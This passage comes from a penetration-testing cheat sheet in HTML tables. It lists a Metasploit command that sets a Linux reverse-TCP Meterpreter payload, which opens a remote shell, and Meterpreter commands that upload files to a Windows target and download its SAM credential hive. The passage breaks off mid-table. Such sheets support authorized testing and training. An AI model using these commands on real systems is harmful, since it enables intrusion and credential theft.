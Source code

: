 ### Linux Reverse Meterpreter payload

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>
        <p><code>set payload linux/meterpreter/reverse_tcp</code></p>
      </td>
      <td>
            <p>Meterpreter Linux Reverse Payload</p>
      </td>
    </tr>

  </tbody>
</table>
</div>

## Meterpreter Cheat Sheet

Useful meterpreter commands.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>
        <p><code>upload file c:\\windows</code></p>
      </td>
      <td>
            <p>Meterpreter upload file to Windows target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>download c:\\windows\\repair\\sam /tmp</code></p>
      </td>
      <td>
            <p>Meterpreter download file from Windows target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>download c:\\windows\\repair\\sam /tmp</code></p>
      </td>
      <td>
            <p>Meterpreter download file from Windows target</p>
      </td>
    </tr>
    <tr>
      <td>